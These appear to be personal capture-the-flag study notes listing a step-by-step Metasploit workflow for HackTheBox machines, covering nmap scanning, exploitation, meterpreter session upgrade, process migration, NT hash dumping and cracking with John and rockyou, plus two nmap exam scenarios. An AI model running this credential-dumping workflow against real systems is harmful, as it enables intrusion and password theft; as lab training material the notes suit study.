```
>>>locate rockyou (wordlist)
>>>john -w=”/usr/share/wordlists/rockyou.txt” hash –format=NT
>>>search -f flag*
>>>cat c:/flag1.txt (change slashes if doent work)
```

# Bog standard attack
```
HTB download vpn, open terminal at location, >sudo openvpn {file}
>ifconfig to get tunnel IP


>sudo nmap -sS -sC -sV -O {targetIP}
>sudo nmap –script vuln {targetIP}
>sudo msfconsole
>search {result from 2}
>use {name}
>options (view options required)
>set RHOSTS {target IP}
>set payload (if required)
>exploit
>whoami
>CTRL-Z (background the session)
>sessions (to see running sessions)
>search shell_to_meterpreter
>use {name from 13}
>options
>set SESSION {session from 12}
>set LHOST {my IP}
>exploit
>sessions (to see meterpreter session)
>ls, ps, help etc
>migrate XXX {services.exe from ps}
>hashdump
>copy hash and paste to txt file, save.
>open terminal where saves
>locate rockyou (wordlist)
>john -w=”/usr/share/wordlists/rockyou.txt” hash –format=NT
>search -f flag*
>cat c:/flag1.txt (change slashes if doent work)
```

## Example Scenario #1
There is a machine running wamp server in the subnet. Provide the IP address of the server.
- **Tips:** Scan the entire subnet with -A(aggressive scan) in nmap or use -sV(version flag). You can speed up the scan by specifying port with -p as 8080,80,443.
- **Things to google:** Scanning with nmap

## Example Scenario #2
Find the FQDN of the domain controller in the network.
- **Tips:** Scan the entire subnet with -A(aggressive scan) in nmap. The FQDN will appear for the server.
- **Things to google:** Scanning with nmap, smb-os-discovery script can reveal whether a machine is a domain controller
